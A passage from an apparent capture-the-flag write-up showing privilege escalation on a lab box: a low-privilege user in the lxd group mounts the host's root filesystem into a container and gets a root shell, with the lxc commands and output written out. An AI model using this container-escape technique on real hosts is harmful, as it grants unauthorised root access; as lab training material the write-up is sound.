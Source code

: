 We can now mount the host file system in the container, giving full read access to the host file system from within the container at `/mnt/root` :

```console
dale@TEAM:~$ lxc config device add EXPLOIT-CONTAINER EXPLOIT-DEVICE disk source=/ path=/mnt/root recursive=true
Device EXPLOIT-DEVICE added to EXPLOIT-CONTAINER
```

We can now boot the container and start a shell session. Navigating to `/mnt/root/`, we find the host file system, and we can access it as root :

```console
dale@TEAM:~$ lxc start EXPLOIT-CONTAINER
dale@TEAM:~$ lxc exec EXPLOIT-CONTAINER /bin/sh
~ # whoami
root
~ # ls -l /mnt/root/home
total 12
drwxr-xr-x    7 1000     1000          4096 Oct 29 23:54 dale
drwxr-xr-x    5 nobody   nobody        4096 Jan 15  2021 ftpuser
drwxr-xr-x    6 1001     1001          4096 Jan 17  2021 gyles
```

Easy (!). Interestingly, this isn't the only THM box that accidentally left a low-privilege user in the lxc/lxd group, and I'm not really sure how it happens - an artefact of the image they use to build the box, I imagine?